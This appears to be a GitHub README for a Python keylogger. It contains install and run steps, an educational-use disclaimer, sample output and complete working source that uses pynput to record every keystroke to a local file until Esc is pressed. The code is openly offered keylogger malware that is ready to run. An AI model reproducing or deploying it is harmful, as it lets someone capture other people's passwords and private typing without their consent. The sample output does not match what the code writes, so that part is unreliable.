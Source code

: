 Keylogger Script

Overview

This Python script logs keystrokes and saves them to a text file (keylog.txt). It uses the pynput library to capture keypresses and handles both character keys and special keys (e.g., space, enter, shift). The script stops logging when the Esc key is pressed.

Features

Captures all keystrokes (character keys and special keys).

Logs keys to a specified file (keylog.txt).

Stops logging gracefully when the Esc key is pressed.

Prerequisites

Python 3.x installed on your system.

pynput library installed. You can install it using pip:

pip install pynput

Usage Instructions

Save the script as keylogger.py.

Run the script in your terminal or command prompt:

python keylogger.py

The script will log all keystrokes to keylog.txt in the same directory.

Press the Esc key to stop the logging.

Ethical Usage

This script is intended for educational purposes only. You must comply with the following guidelines:

Authorization: Use this script only with explicit permission from the device owner.

Transparency: Inform the users and stakeholders about its use.

Legal Compliance: Ensure adherence to local laws and regulations regarding keylogging.

Disclaimer

The authors and contributors are not responsible for any misuse of this script. Misusing this script for unauthorized keylogging is illegal and unethical.

Example Output

When you type Hello World! and press the spacebar and enter key, the keylog.txt file will look like this:

H
e
l
l
o
 [Key.space]
W
o
r
l
d
!
 [Key.enter]

Technical Details

The script includes the following components:

Logging Keystrokes

The on_press function logs characters and handles special keys by wrapping them in square brackets.

Special keys like space and enter are logged as [Key.space] and [Key.enter], respectively.

Stopping Condition

The on_release function stops the script when the Esc key is pressed.

File Handling

The keystrokes are appended to keylog.txt. Ensure write permissions in the script directory.

Code

from pynput.keyboard import Key, Listener

# File to save logged keys
log_file = "keylog.txt"

# Function to log keys
def on_press(key):
    try:
        # Write the key to the log file
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        # Handle special keys (e.g., space, enter, shift)
        with open(log_file, "a") as f:
            f.write(f" [{key}] ")

# Stop logging when 'Esc' is pressed
def on_release(key):
    if key == Key.esc:
        return False

# Start listening for keypresses
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

License

This project is licensed under the MIT License. See the LICENSE file for details.

Contribution

Feel free to fork this repository and submit pull requests to improve the script. Ensure that your contributions adhere to ethical guidelines.

